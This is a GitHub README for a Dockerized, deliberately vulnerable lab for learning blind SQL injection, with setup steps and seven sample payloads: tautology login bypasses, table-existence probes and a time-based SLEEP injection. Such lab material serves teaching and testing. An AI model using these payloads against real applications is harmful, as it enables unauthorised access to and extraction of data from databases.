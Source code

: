 ### Blind SQL Injection - Dockerized

This project provides a Dockerized environment to simulate and test **Blind SQL Injection** attacks in a secure and isolated setup. 
The goal is to help users understand the mechanics of this attack, how it differs from traditional SQL Injection, and how to experiment with it using practical examples.

---

### What is Blind SQL Injection?

#### Difference Between SQL Injection and Blind SQL Injection

**SQL Injection** allows attackers to directly view the results of their malicious queries, such as database errors or data displayed on the webpage. It is fast and straightforward since the output is immediately visible.

**Blind SQL Injection**, however, does not show direct results. Instead, attackers infer information by observing the application’s behavior (e.g., response times or changes in output). It is slower and more complex but can still extract sensitive data with persistence.

---

### Prerequisites

To run the Dockerized application, ensure the following are installed on your system:

- [Docker](https://www.docker.com/) (required to load and run the image)  
- [Git](https://git-scm.com/) (optional, for cloning the repository)  
- System with at least **2GB of free space** (the image size is ~801 MB).  

---

### Installation and Usage

Follow these steps to set up and run the application:

#### 1. Clone the Repository

If you haven't already, clone the repository from GitHub:
```bash
git clone https://github.com/ALAOUIa/Blind_SQL_Injection-App.git
```

```bash
cd Abdelaziz_Blind-SQL-Injection-Dockerized
```

#### 2. Load the Docker Image

Load the prebuilt Docker image from the `.tar` file:
```bash
docker load -i Abdelaziz_Blind-SQL-Injection-Dockerized.tar
```

#### 3. Run the Docker Container

Start the container with the following command:
```bash
docker run -p 8080:80 abdelaziz/dvwa-custom
```

#### 4. Access the Application

Open your browser and navigate to:
```
http://localhost:8080
```

#### 5. Test SQL Injection Attacks

Use the examples provided in the [Examples](#examples-of-blind-sql-injection-attacks) section to test Blind SQL Injection on the vulnerable endpoints.

---

### Examples of Blind SQL Injection Attacks

Here are some sample payloads to test on the vulnerable application:

##### 1. Bypass Authentication Using Always-True Condition

### Query:
```
1' OR '1'='1' -- 
```

##### Explanation:
This query leverages an always-true condition (`'1'='1'`) to bypass checks and fetch any available record in the database.

##### Expected Result:
```
User ID exists in the database.
```

---

##### 2. Validating the Query with Always-True Condition

##### Query:
```
1' AND '1'='1' -- 
```

##### Explanation:
This query tests whether a condition that is always true (`'1'='1'`) correctly processes and confirms the result.

##### Expected Result:
```
User ID exists in the database.
```

---

##### 3. Testing for Always-False Condition

##### Query:
```
1' AND '1'='2' -- 
```

##### Explanation:
This query uses an always-false condition (`'1'='2'`) to validate that no result is returned when the condition fails.

##### Expected Result:
```
User ID is MISSING from the database.
```

---

##### 4. Fetching All Records Without Conditions

##### Query:
```
1' OR 1=1 -- 
```

##### Explanation:
This query bypasses any filter by using the logical condition `1=1`, which is always true.

##### Expected Result:
```
User ID exists in the database.
```

---

##### 5. Testing the Presence of a Table (Example: `users`)

##### Query:
```
1' AND EXISTS(SELECT 1 FROM users) -- 
```

##### Explanation:
This query checks whether a table named `users` exists in the database by using the SQL `EXISTS` function.

##### Expected Result:
```
User ID exists in the database.
```

---

##### 6. Testing for Non-Existing Table or Condition

##### Query:
```
1' AND EXISTS(SELECT 1 FROM non_existing_table) -- 
```

##### Explanation:
This query attempts to check for a non-existing table (`non_existing_table`) and should fail, demonstrating the absence of the table.

##### Expected Result:
```
User ID is MISSING from the database.
```

---

##### 7. Delay-Based Blind SQL Injection

##### Query (If Supported):
```
1' AND IF(1=1, SLEEP(3), 0) -- 
```

##### Explanation:
This query introduces a delay (`SLEEP(3)`) when the condition (`1=1`) is true, making it useful for blind SQL injection.

##### Expected Behavior:
- The response is delayed by 3 seconds if the condition is true.
- No delay occurs if the condition is false.

---

##### Additional Notes
- **Comment Style**: Use `--` followed by a space or `#` to terminate the query properly.
- **Security Level**: Ensure that the DVWA security level is set to **Low** for these queries to work as expected.
- **Testing Responsibly**: Only test on applications you own or have explicit permission to test.

---


### Disclaimer

This project is intended **solely for educational purposes**. Do not attempt these attacks on live systems or without explicit authorization. Misuse of this knowledge is unethical and may be illegal.
